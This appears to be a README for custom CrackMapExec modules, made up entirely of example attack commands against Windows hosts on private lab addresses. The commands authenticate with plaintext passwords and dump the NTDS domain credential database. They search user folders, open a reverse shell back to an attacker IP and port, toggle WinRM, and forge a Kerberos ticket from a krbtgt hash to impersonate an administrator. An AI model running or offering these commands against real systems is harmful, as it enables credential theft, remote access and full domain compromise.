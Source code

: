 ## Usage of ntdsutil

````console
crackmapexec smb 192.168.163.144 -u 'Admin2' -p 'Password!' -M ntdsutil
````

## Usage of file_discovery

````console
crackmapexec smb 192.168.163.144 -u 'Admin2' -p 'Password!' -M file_discovery -o SEARCH_PATH=C:\\Users
````

## Usage of revshell

````console
crackmapexec smb 192.168.163.144 -u 'Admin2' -p 'Password!' -M reverse_shell -o LHOST=192.168.163.136 LPORT=1234 HTTP_SERVER=8443
````

## Usage of winrm

````console
crackmapexec smb 192.168.163.142 -u Admin2 -p 'Password123!' -M winrm -o ACTION=ENABLE
crackmapexec smb 192.168.163.142 -u Admin2 -p 'Password123!' -M winrm -o ACTION=DISABLE
````

## Usage of gettgt

````console
crackmapexec smb 192.168.246.139 -u subadmin -p Password123\! -M gettgt -o KRBTGT_NTLM=70a415ccf57e2a3c781764a3b1beee95 TARGET_USER=Administrador
````

